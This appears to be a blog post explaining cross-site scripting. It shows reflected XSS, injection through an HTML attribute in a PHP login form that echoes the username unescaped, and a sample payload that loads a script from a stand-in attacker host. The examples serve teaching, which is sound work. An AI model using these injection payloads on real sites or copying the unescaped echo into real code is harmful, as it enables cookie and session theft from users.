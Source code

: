 ```yaml
---
layout: post
title: "What is Cross-Site Scripting (XSS) Vulnerability?"
subtitle: "Cross-Site Scripting or XSS"
background: '/img/posts/XSS.jpg'
---
```


## Background
Cross-Site Scripting (XSS) arises when code incorporates user-supplied data into the response without adequately sanitizing it beforehand. Named for the capability it grants attackers to execute JavaScript on someone else's site, Cross-Site Scripting is commonly referred to as "XSS."

This vulnerability holds the #3 position on OWASP's list of Top 10 security threats and stands out as the most prevalent flaw in web application security.

Various methods enable hackers to inject JavaScript into a page, contingent on the output of unsanitized incoming data. Once the hacker successfully embeds their JavaScript within the page response, the script executes, typically unbeknownst to the unsuspecting user. The script can carry out a range of actions, including pilfering site cookies or session data. This exploit works because the browser inherently trusts all JavaScript provided with the page.


![IMDb page](/img/posts/XSS-blog.jpg)

## Reflected Cross-Site Scripting (XSS) Vulnerability


Reflected Cross-Site Scripting (XSS) occurs when a script executes directly in the victim's browser. The JavaScript in question is typically embedded in the URL data or form data. The term "reflected" is used because the script rebounds immediately. In a carefully orchestrated attack, the user may not even detect that the script has executed.

```javascript
<h1>No results were found for: <script>alert('XSS!');</script></h1>
```
## XSS using an HTML attribute

Here's another illustration involving a login form. Take note that the username text input will be filled with the value of ``$username``, if available. In the event of a failed login attempt, the entered username will be retained in the form, allowing the user to make another attempt with a new password.

```javascript
<!-- login.php -->
<input type="text" name="username" value="<?php echo $username; ?>" /><br />
<input type="password" name="password" value="" />
```

A malicious actor inputs the subsequent username and password, then proceeds to submit the form.

```javascript
username: " /><script>alert('XSS!');</script>
password:
```
The login will fail and the form will be shown again with the hacker's code inserted.

```javascript
<!-- login.php -->
<input type="text" name="username" value="" /><script>alert('XSS!');</script>" />
<input type="password" name="password" value="" />
```
## XSS with External JavaScript

The JavaScript "payload" doesn't necessarily need to be straightforward or apparent. It is just as feasible to load an external JavaScript as it is to supply inline code. This JavaScript page may be extensive and intricate.

```javascript
GET /login.php?username=<script src="http://evilhacker.com/bad.js"></script>
```


